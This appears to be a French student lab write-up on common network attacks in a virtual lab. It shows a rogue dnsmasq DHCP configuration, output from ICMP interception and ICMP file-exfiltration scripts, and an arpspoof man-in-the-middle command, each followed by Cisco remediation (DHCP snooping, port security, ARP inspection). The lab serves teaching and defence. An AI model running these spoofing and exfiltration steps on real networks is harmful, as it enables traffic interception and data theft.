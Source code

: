Setup

PC3> dhcp
DDORA IP 10.2.1.184/24 GW 10.2.1.254



PC3> ping 8.8.8.8

84 bytes from 8.8.8.8 icmp_seq=1 ttl=114 time=37.636 ms
84 bytes from 8.8.8.8 icmp_seq=2 ttl=114 time=38.209 ms
84 bytes from 8.8.8.8 icmp_seq=3 ttl=114 time=39.489 ms



R1#show ip int br
Interface                  IP-Address      OK? Method Status                Protocol
FastEthernet0/0            192.168.122.3   YES DHCP   up                    up  
FastEthernet1/0            10.2.1.254      YES NVRAM  up                    up  
FastEthernet1/1            unassigned      YES NVRAM  administratively down down
FastEthernet2/0            unassigned      YES NVRAM  administratively down down
FastEthernet2/1            unassigned      YES NVRAM  administratively down down
NVI0                       unassigned      NO  unset  up



PC3> ping 8.8.8.8

8.8.8.8 icmp_seq=1 timeout
84 bytes from 8.8.8.8 icmp_seq=2 ttl=114 time=36.501 ms
84 bytes from 8.8.8.8 icmp_seq=3 ttl=114 time=53.740 ms



PC3> ping 10.2.1.51

84 bytes from 10.2.1.51 icmp_seq=1 ttl=64 time=8.285 ms
84 bytes from 10.2.1.51 icmp_seq=2 ttl=64 time=3.606 ms


Common network attacks


# DHCP

DHCP spoofing

┌──(kali㉿kali)-[~]
└─$ cat /etc/dnsmasq.conf 
server=1.1.1.1
listen-address=127.0.0.1
listen-address=10.2.1.187
no-dhcp-interface=
no-hosts
dhcp-range=10.2.1.220,10.2.1.230,12h
dhcp-option=option:netmask,255.255.255.0
dhcp-option=option:router,10.2.1.254
dhcp-option=option:dns-server,10.2.1.12
addn-hosts=/etc/dnsmasq.d/spoof.hosts

┌──(kali㉿kali)-[~]
└─$ 


Only Atk VM up - Legit DHCP Server Down

PC3> sh ip

NAME        : PC3[1]
IP/MASK     : 0.0.0.0/0
GATEWAY     : 0.0.0.0
DNS         :
MAC         : 00:50:79:66:68:05
LPORT       : 20044
RHOST:PORT  : 127.0.0.1:20045
MTU         : 1500

PC3> ip dhcp
DDORA IP 10.2.1.230/24 GW 10.2.1.254

PC3> sh ip

NAME        : PC3[1]
IP/MASK     : 10.2.1.230/24
GATEWAY     : 10.2.1.254
DNS         : 10.2.1.12
DHCP SERVER : 10.2.1.60
DHCP LEASE  : 43194, 43200/21600/37800
MAC         : 00:50:79:66:68:05
LPORT       : 20044
RHOST:PORT  : 127.0.0.1:20045
MTU         : 1500

PC3>


Legit DHCP + Atk VM up - DHCP Spoofing

Capture : [dhcp_spoof.pcapng](dhcp_spoof.pcapng)

PC3> sh ip

NAME        : PC3[1]
IP/MASK     : 0.0.0.0/0
GATEWAY     : 0.0.0.0
DNS         :
MAC         : 00:50:79:66:68:05
LPORT       : 20044
RHOST:PORT  : 127.0.0.1:20045
MTU         : 1500

PC3> ip dhcp
DORA IP 10.2.1.230/24 GW 10.2.1.254

PC3> sh ip

NAME        : PC3[1]
IP/MASK     : 10.2.1.230/24
GATEWAY     : 10.2.1.254
DNS         : 10.2.1.12
DHCP SERVER : 10.2.1.60
DHCP LEASE  : 40418, 43200/21600/37800
MAC         : 00:50:79:66:68:05
LPORT       : 20044
RHOST:PORT  : 127.0.0.1:20045
MTU         : 1500

Remédiation : 
Switch# conf t
Switch(config)# ip dhcp snooping
Switch(config)# ip dhcp snooping vlan ..
Switch(config)# interface ...
Switch(config-if)# ip dhcp snooping trust
Switch(config-if)# exit
Switch(config)# interface ...
Switch(config-if)# ip dhcp snooping untrust
Switch(config-if)# exit
Switch(config)# exit
Switch# show ip dhcp snooping

Switch# conf t
Switch(config)# interface ...
Switch(config-if)# switchport port-security
Switch(config-if)# switchport port-security maximum 2
Switch(config-if)# switchport port-security violation restrict
Switch(config-if)# switchport port-security mac-address sticky
Switch(config-if)# exit
Switch(config)# exit
Switch# show port-security


# ICMP

Interception ping

┌──(root㉿kali)-[/home/kali/Desktop/Script]
└─# python icmp_basic_receiver.py
Sniffing des paquets ICMP provenant de 127.0.0.1...
Ping reçu de 127.0.0.1 avec les données : test interception
Ping reçu de 127.0.0.1 avec les données : test interception
Ping reçu de 127.0.0.1 avec les données : test interception
Ping reçu de 127.0.0.1 avec les données : test interception



Exfiltration fichier

┌──(root㉿kali)-[/home/kali/Desktop/Script]
└─# python icmp_file_exfiltr.py
Envoi du bloc 1 vers 127.0.0.1 : b'toto\n'
Exfiltration terminée
#### Interception ping

Remédiation :


ARP 
┌──(root㉿kali)-[~]
└─$ echo 1 > /proc/sys/net/ipv4/ip_forward

┌──(root㉿kali)-[~]
└─$ arpspoof -i eth0 -t 10.2.1.100 -r 10.2.1.254
ARP reply sent to 10.2.1.100 (00:11:22:33:44:55) telling it's 10.2.1.254
ARP reply sent to 10.2.1.254 (00:11:22:33:44:55) telling it's 10.2.1.100
...

PC1> sh arp

10.2.1.254  00:50:79:66:68:05
10.2.1.100  00:11:22:33:44:55

PC1> sh arp

10.2.1.254  00:11:22:33:44:55
10.2.1.100  00:11:22:33:44:55

Remédiation : 

Switch(config)# ip arp inspection vlan 1
Switch(config)# ip dhcp snooping
Switch(config)# ip dhcp snooping vlan 1
Switch(config)# exit
Switch# show ip arp inspection

